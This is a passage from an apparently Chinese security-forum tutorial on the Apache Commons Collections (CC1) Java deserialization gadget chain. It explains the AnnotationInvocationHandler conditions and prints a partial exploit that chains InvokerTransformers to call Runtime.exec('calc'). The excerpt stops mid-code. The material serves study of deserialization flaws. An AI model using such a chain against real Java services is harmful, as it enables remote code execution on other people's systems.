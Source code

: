 那么现在就剩下两个问题了

我们跟进去看如何去保证两个If语句都进入呢

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-693e49335e3a878c9a865f75f544b821f194c15e.png)

首先第一个if是比较容易过的，因为他要去找`AnnotationInvocationHandler`传进来的注解的成员变量，要存在并且map的key可以找到他的成员变量即可，所以做出以下修改

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-110e3fd1887ea9223ec4bfff0fdaebe259c28647.png)

第二个if就直接过就行了，所以最后的问题就是这一句话

```java
memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]")
```

那是不是这个传入的东西不可控了呢?

‍

这里作者再次找到了一个实现类`ConstantTransformer`

他的`transform`方法就是一句话 传入什么都返回常量，那我无所谓value的值，只需要在

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e12c87f20e0c0e416c0e12a2e48b0fe39922f674.png)

那如果返回的常量是`Runtime.class`就可以进行传入了

‍

整条链子就结束了 exp如下

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Main {

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```